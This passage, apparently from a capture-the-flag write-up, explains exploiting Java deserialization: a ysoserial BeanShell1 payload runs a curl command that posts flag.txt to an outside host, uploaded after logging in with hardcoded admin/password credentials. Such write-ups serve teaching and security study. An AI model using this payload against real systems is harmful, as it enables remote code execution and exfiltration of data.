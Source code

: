 Inside pom.xml file we see package BeanShell, next step is to generate proper payload to execute `readObject` with our binary payload.
Payload was generated via `ysoserial` (compiled from source, but you can simply download jar file from github):


```console
$ java --add-opens java.base/java.util=ALL-UNNAMED --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar  BeanShell1 'curl -X POST --data-binary @flag.txt http://myproxy' > ~/b.bin
```

then you need to login (credentials are hardcoded - admin / password) and upload a new device (where you will upload generated binary). We don't care about any serialization error or anything else, because real execution will be done before.
